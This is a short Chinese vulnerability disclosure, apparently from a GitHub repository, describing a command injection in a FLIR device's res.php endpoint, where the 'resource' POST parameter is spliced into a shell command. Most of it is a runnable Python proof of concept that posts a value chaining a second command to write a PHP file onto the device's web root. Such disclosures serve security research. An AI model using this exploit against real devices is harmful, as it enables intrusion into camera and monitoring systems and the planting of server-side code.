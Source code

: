 在 www 目录下 res.php 程序接收 POST 方法请求，若存在 node 参数，并且提供一个 resource 参数，程序会将 resource 的值与 LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls  拼接执行，若 resource  包含命令截断符，会造成命令注入。

![image-20221203214017320](.assets/image-20221203214017320.png)

# 三、漏洞利用&POC

POC：

```php
import requests
import sys
import urllib3
# disable https not verify warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def verify(url):

    try:
        page = "res.php"
        target_url = url + "/" + page
        
        headers = {
            'Host': url.strip("http://").strip("https://"),
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8',
        }
        
        data = {
            'action':'node',
            'resource': "1; echo '<?php phpinfo(); ?>' > temp.php",
        }
        
        response = requests.post(target_url,
                                 verify=False,
                                 data=data,
                                 headers=headers)

        print(response.text)
    except Exception as e:
        print(e)
            
if __name__ == '__main__':
    url = 'x.x.x.x'
    verify(url=url)
```
